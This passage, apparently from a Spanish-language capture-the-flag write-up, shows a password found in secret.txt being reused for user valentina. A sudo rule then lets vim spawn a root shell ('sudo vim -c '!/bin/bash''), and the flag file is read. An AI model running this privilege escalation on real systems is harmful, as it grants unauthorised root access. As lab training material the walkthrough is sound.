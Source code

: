 El contenido del .txt resultó ser el texto **mag1ck**:

```shell
cat secret.txt
mag1ck
```

Verificamos si es la contraseña para el usuario **valentina** a la vez que intentamos ver si tiene asignados permisos a nivel de sudoers.

```shell
valentina@34e0296f5c5d:~$ sudo -l
[sudo] password for valentina: mag1ck
User valentina may run the following commands on 34e0296f5c5d:
    (ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Podemos usar **vim** como el usuario **root**. La escalada de privilegios al usuario root se puede lograr con el siguiente comando:

```shell
valentina@34e0296f5c5d:~$ sudo vim -c '!/bin/bash'
root@34e0296f5c5d:/home/valentina# whoami
root
```

Finalmente, obtenemos la flag. 😈

```shell
root@34e0296f5c5d:~# cat /root/fl4g.txt 

     |\     ____
     \ \.-./ .-' T
      \ _  _( /| | |\
    ) | .)(./ |  |  |
      |   \(   \_|_/
  (   |     \    |
 )    |  \VvV    | (
      |  |\,,\   | 
    ) |  | ^^^   |    )
   (  |  |__     |   (
 )   /      `-. _|    )
(   /          /  `\
   /          ///_ |
  /jgs       (((-|'

  _, _, ,  ,  _,  ,_  _  ___,_,
 /  / \,|\ | / _  |_)'|\' | (_,
'\_'\_/ |'\|'\_|`'| \ |-\ |  _)
   `'   '  `  _|  '  `'  `' '  
             '                 

Instagram:[ @purpl3_mag1ck](https://www.instagram.com/s1egfr1ed333/)
TikTok: [@purple_mag1ck](https://www.tiktok.com/@_s1egfr1ed)
```

